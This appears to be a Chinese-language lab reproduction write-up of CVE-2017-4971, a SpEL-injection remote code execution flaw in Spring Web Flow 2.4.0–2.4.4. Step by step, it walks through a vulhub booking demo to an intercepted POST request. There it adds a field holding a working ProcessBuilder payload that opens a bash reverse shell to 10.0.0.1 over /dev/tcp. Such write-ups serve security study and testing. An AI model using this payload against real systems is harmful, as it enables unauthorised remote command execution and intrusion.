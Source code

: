 （CVE-2017-4971）Spring WebFlow 远程代码执行漏洞
================================================

一、漏洞简介
------------

Spring WebFlow
是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其
2.4.x
版本中，如果我们控制了数据绑定时的field，将导致一个SpEL表达式注入漏洞，最终造成任意命令执行。

二、漏洞影响
------------

Spring Web Flow 2.4.0版本至2.4.4版本

三、复现过程
------------

首先访问`http://www.0-sec.org:8080/login`，用页面左边给出的任意一个账号/密码登录系统：![1.png](resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId24.png)然后访问id为1的酒店`http://www.0-sec.org/hotels/1`，点击预订按钮"Book
Hotel"，填写相关信息后点击"Process"（从这一步，其实WebFlow就正式开始了）：

![2.png](resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId25.png)

再点击确认"Confirm"：

![3.png](resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId26.png)此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：

    _(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub

![4.png](resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId27.png)（注意：别忘记URL编码）

成功执行，获得shell：

![5.png](resource/(CVE-2017-4971)SpringWebFlow远程代码执行漏洞/media/rId28.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-4971
